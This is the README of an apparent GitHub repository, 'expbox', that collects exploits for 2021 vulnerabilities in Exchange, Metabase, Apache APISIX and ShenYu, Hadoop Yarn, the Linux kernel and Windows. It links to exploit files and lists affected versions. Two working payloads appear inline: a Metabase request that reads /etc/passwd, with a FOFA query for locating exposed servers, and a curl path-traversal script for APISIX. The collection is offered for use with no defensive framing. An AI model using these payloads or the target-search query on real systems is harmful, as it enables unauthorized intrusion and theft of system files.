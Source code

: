 ![[object Object]](https://socialify.git.ci/0x0021h/expbox/image?description=1&name=1&stargazers=1&theme=Light)

### Introduction
expbox is an exploit code collection repository


### List
**[CVE-2021-41349 Exchange XSS PoC](https://github.com/0x0021h/expbox/blob/main/cve-2021-41349-poc.py)**
```
<= Exchange 2013 update 23
<= Exchange 2016 update 22
<= Exchange 2019 update 11
```
**[CVE-2021–3945 Django-helpdesk stored XSS PoC](https://github.com/0x0021h/expbox/blob/main/cve-2021%E2%80%933945-poc.txt)**
```
<= 0.3.0
```

**[CVE-2021-37580 Apache ShenYu 2.3.0/2.4.0 authentication bypass](https://github.com/0x0021h/expbox/blob/main/cve-2021-37580-poc.py)**
```
Ref: https://github.com/fengwenhua/CVE-2021-37580
```


**[Hadoop Yarn RPC RCE](https://github.com/0x0021h/expbox/blob/main/Hadoop%20Yarn%20RPC%20RCE.md)**
```
Ref: https://github.com/cckuailong/YarnRpcRCE
```

**[CVE-2021-41277 MetaBase Arbitrary File Read](https://github.com/0x0021h/expbox/blob/main/CVE-2021-41277.yaml)**
```
MetaBase < 0.40.5
1.0.0 <= MetaBase < 1.40.5

FOFA:

app="Metabase"

PoC:

GET /api/geojson?url=file:/etc/passwd HTTP/1.1
```

**[CVE-2021-42321 Exchange Post-Auth RCE](https://github.com/0x0021h/expbox/blob/main/CVE-2021-42321.py)**
```
<= Exchange 2016 update 22
<= Exchange 2019 update 11
```

**[Windows 0day - InstallerFileTakeOver](https://github.com/0x0021h/expbox/blob/main/InstallerFileTakeOver.exe)**
![image](https://user-images.githubusercontent.com/92664048/142796024-a46e8a46-90d1-42ed-8cf2-42127fb65da3.png)
```
Ref:https://github.com/klinix5/InstallerFileTakeOver
```

**CVE-2021-43557 Apache APISIX: Path traversal in request_uri variable**
```
#/bin/bash

kubectl exec -it -n ingress-apisix apisix-dc9d99d76-vl5lh -- curl --path-as-is http://127.0.0.1:9080$1 -H 'Host: app.test'
```

**[CVE-2021-43267 Linux Kernel TIPC RCE](https://github.com/0x0021h/expbox/blob/main/CVE-2021-43267.c)**
```
5.10-rc1 < Linux kernel < 5.15
```

Reference: https://haxx.in/posts/pwning-tipc/

**[Nginx 0.7.0 to 1.17.9 Host injection](https://github.com/0x0021h/expbox/blob/main/nginx%20%200.7.0%20to%201.17.9%20Host%20injection.md)**
```
Ref: https://twitter.com/infosec_90/status/1464337963240861702
```

### Note

All content comes from the Internet, if there is a copyright problem, please contact me to delete.
